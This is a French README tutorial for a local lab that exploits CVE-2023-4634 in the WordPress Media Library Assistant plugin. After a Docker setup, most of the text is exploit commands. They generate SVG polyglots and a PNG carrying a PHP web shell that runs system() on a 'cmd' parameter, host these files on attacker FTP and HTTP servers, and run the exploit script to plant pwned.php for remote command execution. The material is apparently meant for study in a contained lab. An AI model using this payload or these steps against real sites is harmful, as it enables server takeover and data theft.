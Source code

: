 # ProjetCL

# Tuto CVE-2023-4634

## Cloner le dépôt Git

Pour commencer, clonez le dépôt Git à l'aide de la commande suivante :

```bash
git clone https://github.com/lehazare/ProjetCL.git
```

## Construction et exécution du conteneur WordPress

Pour exécuter le conteneur WordPress, utilisez la commande suivante :

```bash
docker-compose up
```

## Installation du plugin MLA en version compromise (ex : 3.07) sur WordPress

Consultez la vidéo pour des instructions détaillées sur l'installation du plugin MLA.

## Tester avec Nuclei

Cette étape est optionnelle mais vous permet de vous assurer que l'image WordPress est correctement configurée et que le plugin MLA est installé dans une version compromise.

1. Installez Nuclei en utilisant la commande appropriée pour votre système (`brew install nuclei`, `sudo apt install nuclei`, etc.).
2. Utilisez la commande suivante pour tester avec Nuclei :

```bash
nuclei -u http://0.0.0.0:8080 -t ./CVE-2023-4634.yaml
```

> Note : Modifiez `0.0.0.0:8080` en fonction de l'emplacement où votre conteneur WordPress est en cours d'exécution.

## Début de l'attaque

### Objectif

L'objectif est d'accéder à l'URL suivante :

```
http://localhost:8080/pwned.php?cmd=ls
```

### Installation des modules Python nécessaires

Installez les modules Python nécessaires en utilisant la commande suivante :

```bash
python3 -m pip install -r requirements.txt
```

### Pour tester

Pour effectuer un test, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py -h
```

### Trouver l'adresse de sa machine

Utilisez la commande suivante pour obtenir l'adresse IP de votre machine :

```bash
ifconfig
```

Vous pouvez tester la connectivité en utilisant la commande `ping`.

### FTP

Génération des fichiers SVG :

```bash
python3 CVE-2023-4634.py --generatesvg --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --remotehttp http://192.168.1.103:8081 --png_polyglot_name virus.png --webserverpath /var/www/html --exploitname pwned.php
```

Créez un serveur FTP avec les fichiers SVG en exécutant la commande suivante dans le répertoire `remote_ftp` :

```bash
cd remote_ftp && python3 -m pyftpdlib -p 2122
```

### HTTP

Génération de l'image virus :

```bash
python3 CVE-2023-4634.py --generatepng --payload "<?php if(isset(\$_REQUEST['cmd'])){ echo \"<pre>\"; \$cmd = (\$_REQUEST['cmd']); system(\$cmd); echo \"</pre>\"; die; }?>" --png_polyglot_name virus.png
```

Créez un serveur HTTP avec l'image virus en exécutant la commande suivante dans le répertoire `exploit-png` :

```bash
cd exploit-png && python3 -m http.server 8081
```

### Exploitation

Pour l'exploitation, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py --target http://localhost:8080 --remoteftp ftp://192.168.1.103:2122 --remotehttp http://192.168.1.103:8081 --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --png_polyglot_name virus.png --exploitname pwned.php
```

Vous pouvez tester l'exploit en ajoutant une commande à l'URL, par exemple :

```
http://localhost:8080/pwned.php?cmd=ls
```

Consultez la vidéo pour plus de détails.
